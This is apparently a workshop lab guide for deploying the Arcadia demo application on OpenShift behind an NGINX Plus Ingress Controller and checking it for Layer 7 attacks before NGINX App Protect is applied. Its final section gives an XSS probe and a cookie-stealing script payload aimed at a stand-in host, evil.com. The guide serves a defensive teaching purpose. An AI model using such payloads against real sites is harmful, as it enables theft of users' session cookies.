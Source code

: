 == Access Arcadia App without NGINX App Protect to establish a baseline

== Cleanup Process

Upon the completion of Lab Module 1, it's necessary to tidy up the lab
environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

----
[source,bash]
----
oc delete virtualserver arcadia
oc delete -f arcadia.yml 
----
----

== Deploy the Arcadia Application into Kubernetes

[NOTE]
.Note
====
The Arcadia Financial application is the same application we introduced
in Module 1, but a different version with enhanced features which will
be used for our security lab exercises.
====

Before we can access the Arcadia application, we need to deploy it into
our Kubernetes cluster. To do this, we'll use a single manifest file
that contains the necessary resources, such as Kubernetes deployments
for the four Docker containers and Kubernetes services for the four
Docker containers.

To get the YAML file, we'll use the following command in our terminal
window:

[source,bash]
----
wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml
----

Once we have the YAML file, we can apply it to our Kubernetes cluster
with the following command:

[source,bash]
----
oc apply -f ./arcadia-all.yaml
----

We can check that our Arcadia application is running by using the
following command in our terminal window:

[source,bash]
----
oc get services
----

This will show us the services running in our Kubernetes cluster,
including those related to the Arcadia application.

== Export the NGINX Ingress Controller services

Interacting with the NGINX Ingress Controller is more comfortable with
exporting the service External IPs into system variables. This allows
for templating to take place when we expose our applications.

In the terminal window, copy the below text and paste+enter:

[source,bash]
----
export nginx_ingress=$(oc get svc my-nginx-ingress-controller --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")
----

== Publish Arcadia app with NGINX Plus Ingress Controller

Now that we have our Arcadia application deployed in our Kubernetes
cluster, we need to publish it using the NGINX Plus Ingress Controller.
We'll do this by re-creating the NGINX Ingress Controller with Basic
HTTP using the following command in our terminal window:

This command creates a VirtualServer resource for our Arcadia
application, which includes the host for the NGINX Ingress Controller
and the upstreams for the different microservices. We can now access our
Arcadia application externally using the NGINX Ingress Controller URL,
which can be found by running the following command in our terminal
window:

[source,bash]
----
echo "NGINX Ingress Controller URL: http://$nginx_ingress/"
----

Once we have the URL, we can access our Arcadia application by opening
it in a web browser.

You should be presented with the Main page, click on Login and enter the
credentials as below.

[source,]
----
Username: matt
Password: ilovef5
----

When you click on Log me in, you should be presented with the Arcadia
application that consists of four microservices:

image:image10.png[image]

Congratulations!

You have now successfully deployed the application in the K8s cluster and
published it externally using the NGINX Plus Ingress controller.

== Is our application protected against Layer 7 attacks?

Before we can protect our Arcadia application with NGINX App Protect, we
need to check if it's currently vulnerable to Layer 7 attacks. We can do
this by executing a simple XSS attack, which is a well-known OWASP top
10 attack.

To perform the XSS attack, we can launch the Firefox browser and append
`?a=<script>` to the end of the application URL. If the request is
allowed, then our application is vulnerable to XSS attacks.

image:image11.png[image]

We can further test this by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, which will attempt to steal our document cookie.
If this request is also allowed, then a bad actor could potentially
steal sensitive information from our application user.

image:image12.png[image]

Since our application is currently vulnerable to Layer 7 attacks, we'll
need to protect it using NGINX App Protect in the following Lab.

